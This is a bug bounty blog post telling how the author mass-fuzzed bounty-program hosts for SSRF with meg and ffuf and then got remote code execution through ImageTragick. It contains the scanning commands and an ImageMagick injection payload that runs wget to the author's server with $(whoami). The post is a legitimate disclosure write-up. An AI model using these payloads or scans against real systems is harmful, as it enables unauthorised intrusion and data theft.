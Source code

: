 ```yaml
---
title: "My first RCE: a tale of good ideas and good friends"
layout: post
categories:
  - hacking
tags:
  - hacking
---
```


## Summary 
Through the help of two friends, some bash tricks, the use of Tomnomnom's tool `meg`, and a service vulnerable to [ImageTragick](https://imagetragick.com/), I found my first RCE (and my first critical!) within the first two months of bug bounty hunting.

## Good friends and good ideas
I have always found value in surrounding myself with people I can learn from. In my professional work life, that's choosing to be around the most talented team member when possible. 

When I got into bug bounty, I immediately followed people like [@nahamsec](https://twitter.com/NahamSec), [@zseano](https://twitter.com/zseano), and [@stök](https://twitter.com/stokfredrik). They are very talented and get a lot of questions so I knew I needed to find other sources of help as well. 

Ben (@nahamsec) had started a discord. HackerOne also has a discord. I met [@healthyoutlet](https://twitter.com/healthyoutlet) on one of those discords and we've been friends ever since. We're constantly bouncing ideas off each other. One day I told him it would be awesome to use [@tomnomnom](https://twitter.com/TomNomNom)'s `meg` tool to hit ALL public bounty subdomains with different high-signal payloads and then grepping for signs that it was vulnerable. Like most hackers, he's a doer so he immediately pulled down the github repo of all public programs (https://github.com/arkadiyt/bounty-targets-data), found the domains for the wildcards with [findomain](https://github.com/Edu4rdSHL/findomain), and sent me the list. 

<iframe src="https://giphy.com/embed/oYtVHSxngR3lC" width="480" height="347" frameBorder="0" class="giphy-embed" allowFullScreen></iframe>

It was around 300,000 subdomains and >600,000 hosts because nearly all of them were running on both port 80 and 443. 

We tried lots of different payloads:
* CRLF via %0d%0a
* Path traversal
* Known sensitive paths
* etc.

The idea that resulted in this write-up (and therefore, my first critical!) was parameter fuzzing. I had the idea to search for SSRF via stuffing a bunch of parametes into a request like:
```
https://example.com?url=myserver.com/url&file=myserver.com/file...
```

So I was telling [@michael1026](https://twitter.com/Michael1026H1) about my idea and he suggested a big list of parameters. Since Discord keeps good history, I dug it up for this post:
```
content, counturl, dest_url, document, domain, download, file, http, https, image, image_src, imageurl, include, media, Page, pageurl, page_url, picture, referrer, req, request, source, src, uri, url
```

I am pretty frugal, and I hadn't made any money from bug bounty at this point, so I didn't have Burp Pro and collaborator. So here was the steps I took:
1. Start a simple server on my VPS with 
`python3 -m http.server <random port number>`
2. Run the following command. I used return code 777 because I didn't really want to save off any repsponses.  
```
meg -c 100 -d 100 -s 777 "/?url=http://{my-server-ip}&file=http://{my-server-ip}&path=..." all_hosts.txt
```
3. Wait for a ping on my server.
4. ???
5. Profit!

Oh wait... maybe you already spotted the issue. I received a few pings on my simple http server, and I got really excited. But then I realized that I had no idea what parameter or host was vulnerabe.

## What I did to find the host and param name
I used the linux `split` command to cut the hosts into 100 files and wrote a `for` loop to iterate over them. I watched the simple server logs to see when I got a hit. Then I broke that flie into 100 files and did it again until I figured out the host. I did something similarly stupid to figure out the param name. It took a few hours when it shouldn't have, but it ended up being worth it :)

## What I should have done
1. I should have used [ffuf](https://github.com/ffuf/ffuf). It's an awesome and flexible fuzzer. Check it out if you haven't used it. 
2. Also, I should have added the parameter name to the path. Then I would immediately know which parameter was vulnerable.
3. It would have been nice to include the domain in the path of the request so I would know which domain was vulnerable. This has to change PER request, which isn't trivial. I could have used some bash magic and curl. But nowadays, with the new pitchfork mode in ffuf, I could have requested the domain in the endpoint path pretty easily. 

Putting it all together, I should have done: 
```
ffuf -c -u HOST/?url=http://{my-server-ip}/DOMAIN/url&file=http://{my-server-ip}/DOMAIN/file -w hosts.txt:HOST -w domains.txt:DOMAIN -mode pitchfork -v 
```
Hosts.txt would contain hosts including the protocol. Domains would be the hosts WITHOUT the protocal lining up line-per-line with the hosts. You could easily generate this with @tomnomnom's tool `unfurl` via a command like this: 
`cat hosts.txt | unfurl -format %d | tee -a domains.txt`

## Wrapping up

The vulnerable host had the word image in the subdomain. So I hosted an image on my server and did 
`curl -v https://vulnerablehost.com/url=http://{my-server-ip}/image.jpg` 
and sure enough, the vulnerable host grabbed the image from my server and then delivered it to me. I was telling [@healthyoutlet](https://twitter.com/healthyoutlet) everything I was doing and asking for advice. He told me to check the downloaded image size. sure enough, it was completely different than the original. I opened up an image compare tool and there were lots of pixel differences. It was definitely being processed. So then [@healthyoutlet](https://twitter.com/healthyoutlet) mentions that it might be using [ImageTragick](https://imagetragick.com/) and to look into it. I quickly googled it, found the PoC's on github and modified it so that the code being executed was 
```
push graphic-context
viewbox 0 0 640 480 
fill 'url(https://127.0.0.0/oops.jpg"|wget http://{my-server-ip}/$(whoami)'
pop graphic-context
```
After a few seconds, I got a hit on my simple server at `/Serving`. Not root, but it still proved RCE by the `wget` request being performed AND showing the username of the user running the web server.

<iframe src="https://giphy.com/embed/8JVjMCr3OIAhO" width="480" height="178" frameBorder="0" class="giphy-embed" allowFullScreen></iframe>

So, with imagetragick, an attacker can replace everything to the right of the pipe with whatever code they want. I thought about getting a shell and seeing if I could pivot or escalate, but RCE is already a critical, and I decided to play it on the safe side. 

## Take-aways

* Friends and collaboration are immensely valuable, especially when you're first starting. I wouldn't have found this without my friends helping.
* Creativity and huge data sets can lead to interesting findings.
* Don't assume old CVEs aren't still around. ImageTragick is a 2016 CVE and this was found on a well-known public bug bounty program.

I hope you enjoyed the write-up. I've got a few more from the last few months that might be interesting. 
